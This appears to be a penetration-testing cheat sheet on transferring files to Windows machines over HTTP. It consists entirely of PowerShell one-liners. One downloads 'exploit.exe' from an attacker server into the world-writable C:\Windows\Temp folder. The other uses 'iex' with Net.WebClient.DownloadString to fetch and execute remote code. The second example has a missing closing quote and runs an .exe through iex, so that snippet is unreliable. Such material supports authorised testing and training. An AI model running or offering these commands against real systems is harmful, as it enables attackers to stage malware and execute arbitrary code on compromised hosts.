 # Windows HTTP File Transfer

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

### When wget is not available/usable on a Windows machine use this command to pull files from an http server:
```
powershell -c "Invoke-WebRequest -Uri '[HTTP-SERVER-IP]/[FILE]' -OutFile '[FILE-PATH]'"
```
Example:
```
powershell -c "Invoke-WebRequest -Uri '10.10.100.254/exploit.exe' -OutFile 'C:\Windows\Temp\exploit.exe'"
```
*********************************************************************************
Note: C:\Windows\Temp is commonly world writable
*********************************************************************************
### Another useful command to achieve succesful http file transfer via powershell:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://[HTTP-SERVER-IP]:[PORT]/[FILE])
```
Example:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.254:80/exploit.exe)
